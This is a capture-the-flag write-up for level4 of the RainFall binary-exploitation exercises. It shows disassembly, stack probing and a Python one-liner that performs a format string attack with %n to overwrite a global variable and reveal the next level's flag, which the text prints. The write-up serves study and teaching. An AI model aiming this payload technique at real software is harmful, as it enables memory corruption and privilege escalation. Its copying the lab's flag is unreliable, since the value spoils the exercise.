

# level4

```sh
➜  ~ ssh level4@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level4@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$
```

## _Don't waste time !_

```sh
level4@RainFall:~$ ./level4
Garp the Hero
Garp the Hero
level4@RainFall:~$ ./level4 "Raimei Hakke"
Ikoku
Ikoku
level4@RainFall:~$ 
```

## _Nothing new, time to decompile !_



1. The `main` function return the `n` function
2. The `n` function open the standard input, give the value as argument for the `p` function and return the integer `result` (not defined yet) if the global variable `m` is not equal to the gigentic value `16 930 116` **(SIXTEEN MILLION NINE HUNDRED THIRTY THOUSAND ONE HUNDRED SIXTEEN)**.
3. The `p` function only run the `printf` function with the argument passed in parameter as `char *` (from the standard input in this program).

We will not beat around the bush :

# Vulnerability: <u>Format String Attack</u>

**Again !** The exploit is the same as before, we can start by the exact same way as the [previous level](https://github.com/Nimpoo/rainfall/tree/main/level3).

## 1. Finding the address of `m`

Go found it with `gdb` :

```sh
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
(gdb)
```

**Same reasoning**, the line `<+54>` attribute the value of the address `0x8049810` to the register `eax`, then, the next line `<+59>` compare this value with `0x1025544` (16 930 116 in decimal). We can deduce that the address of `m` is `0x8049810`. Let's verify it :

```sh
(gdb) x/s 0x8049810
0x8049810 <m>:	 ""
(gdb)
```

### `m` = `0x8049810` -> `\x10\x98\x04\x08`

## 2. Finding the padding

Same thing :

```sh
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718
level4@RainFall:~$
```

### _Something weird here... Where's the address of the buffer mmhmhmhmhmhhmmh..._

```sh
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d 0xbffff510 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
level4@RainFall:~$
```

### _Ahhhhhh ! There it is ! What a fear..._

### The buffer is stocked at the 12th position of the stack, so the padding is `12`.

## 3. Constructing the payload (overwriting in `m`)

- We start by writing the address of `m` in the buffer :

```sh
python -c 'print "\x10\x98\x04\x08"'
```

> `cat` is not necessary, the program will only print the `flag` by directly display the file with `cat` and not run a `shell`.

- Then, give a string with `16 930 116 - 4` characters to overwrite the value of `m` :

```sh
python -c 'print "\x10\x98\x04\x08" + "A" * 16930112'
```

- Finally, the format string `%n` to write the value of the number of characters printed in the address of `m` -> **the 12th position of the stack** :

```sh
python -c 'print "\x10\x98\x04\x08" + "A" * 16930112 + "%12$n"'
```

## 4. The final payload

_So easy..._

```sh
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "A" * 16930112 + "%12$n"') | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATraceback (most recent call last):
  File "<string>", line 1, in <module>
IOError: [Errno 32] Broken pipe
level4@RainFall:~$
```

_Okay hum... `python` was not enough powerful to print all these characters..._

## 5. The problems

The problems here is :
- `python` can't print all these characters
- **HOW CAN I PRINT `16 930 116 - 4` (SIXTEEN MILLION NINE HUNDRED THIRTY THOUSAND ONE HUNDRED SIXTEEN MINUS FOUR) CHARACTERS?!**

We can try exploiting the `printf` function by using the alignement feature to print a string.

If we use `printf` like that `printf("How's return ? : [%5s]", "JoyBoy")`, it will print `How's return ? : [JoyBoy]` with 5 `spaces` before the `string` `JoyBoy`.

We can use this feature to print a `string` with a specific length, **`16 930 116 - 4` (SIXTEEN MILLION NINE HUNDRED THIRTY THOUSAND ONE HUNDRED SIXTEEN MINUS FOUR) for RANDOMLY exemple**. Our string will be constituted by `16 930 116 - 4` (SIXTEEN MILLION NINE HUNDRED THIRTY THOUSAND ONE HUNDRED SIXTEEN MINUS FOUR) `spaces`, and its length will be attributed to the address of `m` with the `%n` format string.

## 6. The really final payload

With what we have seen before, we can replace `"A" * 16930112` by `"%16930112x"` (don't forget to minus 4 !) :

```sh
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"'
```

_Let's see what happens..._

```sh
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"') | ./level4
...
[SEVENTEEN MILLION SPACES LATER]
...
b7ff26b0 # random address I don't know what it represents
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ 
```

# LEZZZZGOOOOOOOOOOOOO

The flag is print, the final step :

```sh
level4@RainFall:~$ su level5
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$
```

# level4 complet !

